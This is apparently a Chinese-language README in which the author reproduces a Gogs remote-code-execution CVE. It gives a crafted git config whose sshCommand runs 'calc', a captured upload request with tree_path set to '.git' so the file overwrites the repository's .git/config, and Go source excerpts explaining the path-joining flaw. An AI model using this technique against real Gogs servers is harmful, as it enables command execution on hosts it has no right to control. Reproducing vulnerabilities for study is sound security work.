



# README

## 前言

gogs的rce CVE，第一次复现go的项目漏洞，蛮有意思的。

环境配置参考最后的文章即可。

## 前置知识

关于git的config：https://git-scm.com/docs/git-config

core.sshCommand的作用就是在设置了这个的时候，git fetch和git push将调用core.sshCommand指定的命令。所以我们最后要执行的恶意漏洞就是写在core.sshCommand里了。

## EXP

```
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
    ignorecase = true
    precomposeunicode = true
    sshCommand = calc
[remote "origin"]
    url = git@github.com:torvalds/linux.git
    fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
    remote = origin
    merge = refs/heads/master
```


## 分析

gogs这个上传文件功能的思路是，将文件传到一个临时文件夹中，然后把目标的那个repository复制到一个临时文件夹里面，再把传上来的那个文件移动到这个临时文件夹，然后一系列的`git add,commit,push`来实现文件上传。

第一步上传的时候，存储的文件夹和文件名不可控：



然后点击提交变更，抓包将`tree_path`设置为`.git`：

```http
POST /feng/resp2/_upload/master/ HTTP/1.1
Host: 192.168.142.1:3000
Content-Length: 141
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: XSRF-TOKEN=657bd337-cfca-4d51-8032-39b8bc891ed5; JSESSIONID=BB6E0FB65211F1A2DACF8A81D5756F24; lang=zh-CN; gogs_awesome=feng; gogs_incredible=225e885629de91c72da07b99743587260b73af73a6c80cb278fffb69143f8918; i_like_gogs=9188516cdbe4009c; redirect_to=%252Ffavicon.ico
Connection: close

_csrf=u3zP_boVFMWNS-koyEv8xpSv06g6MTY1MzU1MDQ2MDczMTAwODEwMA&tree_path=.git&commit_summary=&commit_message=&commit_choice=direct&new_branch_name=
```

跟进代码可以发现那个文件第二步，遍历upload目录下的文件来移动，先检查上传的原始文件名是否有`.git`，所以想要覆盖`.git/config`不能从这里考虑：

```go
		// Prevent copying files into .git directory, see https://gogs.io/gogs/issues/5558.
		if isRepositoryGitPath(upload.Name) {
			continue
		}
```



没有的话就拼接成`targetPath`：

```go
targetPath := path.Join(dirPath, upload.Name)
```

而`dirPath`则是这样来的：

```go
	localPath := repo.LocalCopyPath()
	dirPath := path.Join(localPath, opts.TreePath)
```

拼接上了我们传的`TreePath`，得到的targetPath是`C:\Users\15997\AppData\Local\Temp\GoLand\data\tmp\local-repo\2/.git/config`，成功覆盖。

之后执行push，成功触发rce：



总的来说这个思路非常的有意思。

## 参考文章

https://xz.aliyun.com/t/11302